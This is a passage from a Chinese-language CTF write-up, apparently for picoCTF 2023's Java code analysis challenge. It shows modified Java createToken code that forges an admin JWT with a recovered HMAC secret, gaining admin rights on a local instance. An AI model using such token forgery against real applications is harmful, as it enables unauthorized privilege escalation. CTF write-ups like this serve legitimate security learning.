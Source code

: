 

真是功夫不负有心人，只要我们能伪造下面那个admin的账号，我们就能拿到一个货真价实的admin权限账号了！

只要我们如法炮制，再次修改SecretGenerator类getServerSecret的实现，就能拿到admin账号的Payload，从而打开“Flag”这本书了：

```java
public String createToken(Integer userId, String email, String role){
    Algorithm algorithm = Algorithm.HMAC256(SECRET_KEY);

    Calendar expiration = Calendar.getInstance();
    expiration.add(Calendar.DATE, 7); //expires after 7 days

    role = "Admin";
    email = "admin";
    userId = 2;//从“user”账户的userId推出的来，先是创建了user账户（id为1），后创建了admin账户（id为2）
    System.out.println("!!!!!!!!! role: " + role);

    return JWT.create()
            .withIssuer(ISSUER)
            .withIssuedAt(new Date())
            .withExpiresAt(expiration.getTime())
            .withClaim(CLAIM_KEY_USER_ID, userId)
            .withClaim(CLAIM_KEY_EMAIL, email)
            .withClaim(CLAIM_KEY_ROLE, role)
            .sign(algorithm);
}
```



在修改代码后再次打包项目jar包并运行。等待跑码结束，浏览器打开localhost:8080，登录user、user账号后（若仍保留之前的登陆状态需重新登陆），我们可以看到，已经登入admin账号并获得admin权限：

![](../img/post_assets/‎2023‎-0‎3‎-‎16-picoctf-2023-web-exploitation-java-code-analysis/image-20230316201325266.webp)
